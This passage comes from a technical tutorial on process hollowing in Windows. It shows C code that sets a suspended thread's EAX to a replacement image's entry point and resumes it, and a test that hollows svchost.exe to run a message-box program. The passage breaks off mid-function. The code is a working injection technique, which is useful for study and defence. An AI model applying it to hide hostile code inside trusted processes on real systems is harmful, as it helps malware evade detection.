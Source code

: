 				if (!bSuccess)
				{
					  printf("Error writing memory\r\n");
					  continue;
				}
		  }
	}
 
## The Final Touches
With the source image loaded into the target process some changes need to be made to the process thread. First, the thread context must be acquired. Because only the EAX register needs to be updated the ContextFlags member of the CONTEXT structure can be set to CONTEXT_INTEGER.

	LPCONTEXT pContext = new CONTEXT();
	pContext->ContextFlags = CONTEXT_INTEGER;

	printf("Getting thread context\r\n");

	if (!GetThreadContext(pProcessInfo->hThread, pContext))
	{
		  printf("Error getting context\r\n");
		  return;
	}
 
After the thread context has been acquired the EAX member is set to the sum of the base address and the entry point address of the source image.

	DWORD dwEntrypoint = (DWORD)pPEB->ImageBaseAddress +
		  pSourceHeaders->OptionalHeader.AddressOfEntryPoint;

	pContext->Eax = dwEntrypoint;

	The thread context is then set, applying the changes to the EAX register

	printf("Setting thread context\r\n");

	if (!SetThreadContext(pProcessInfo->hThread, pContext))
	{
		  printf("Error setting context\r\n");
		  return;
	}

	Finally, the thread is resumed, executing the entry point of the source image.                     

	printf("Resuming thread\r\n");

	if (!ResumeThread(pProcessInfo->hThread))
	{
		  printf("Error resuming thread\r\n");
		  return;
	}
 
The hollowing function is now ready to use. To test it, svchost.exe (the Windows service host) is hollowed out and replaced with a simple application that displays a message box.

	int _tmain(int argc, _TCHAR* argv[])
	{
		  char* pPath = new char[MAX_PATH];
		  GetModuleFileNameA(0, pPath, MAX_PATH);
		  pPath[strrchr(pPath, '\\') - pPath + 1] = 0;
		  strcat(pPath, "helloworld.exe");
